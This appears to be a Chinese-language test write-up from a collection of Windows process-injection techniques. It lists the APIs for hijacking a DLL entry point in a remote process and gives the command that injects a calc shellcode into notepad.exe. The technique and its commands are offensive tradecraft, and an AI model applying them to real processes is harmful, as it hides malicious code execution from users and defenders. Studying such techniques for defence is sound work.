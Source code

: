 ### 关键 Windows API

```c
// PEB 访问
NtQueryInformationProcess(ProcessBasicInformation)

// 进程访问
OpenProcess(PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE | PROCESS_QUERY_INFORMATION)

// 内存操作
VirtualAllocEx()       // 分配 shellcode 内存
WriteProcessMemory()   // 写入 shellcode 和劫持入口点
ReadProcessMemory()    // 读取 PEB/LDR 结构

// 强制触发（-f 模式）
CreateRemoteThread()   // 创建调用 ExitThread 的线程
```

## 测试配置

### Shellcode 准备

使用技术 23 (Threadless Inject) 的 calc shellcode：

```bash
# 106 字节 calc.exe 启动器
# 使用动态 API 解析（从 PEB 查找 WinExec）
../23-threadless-inject/payload.bin
```

### 目标进程

- **进程**: notepad.exe
- **PID**: 58740
- **目标 DLL**: KERNELBASE.dll (默认)
- **测试模式**: Threaded (-f 强制触发)

### 编译状态

```bash
ls build/
# epi.exe (已预编译)
```

## 测试执行

### 执行命令

```bash
notepad.exe &  # 启动记事本
tasklist | grep notepad.exe  # PID: 58740

# 使用 -f 强制触发模式
cd techniques/24-epi
./build/epi.exe 58740 ../23-threadless-inject/payload.bin -f
```
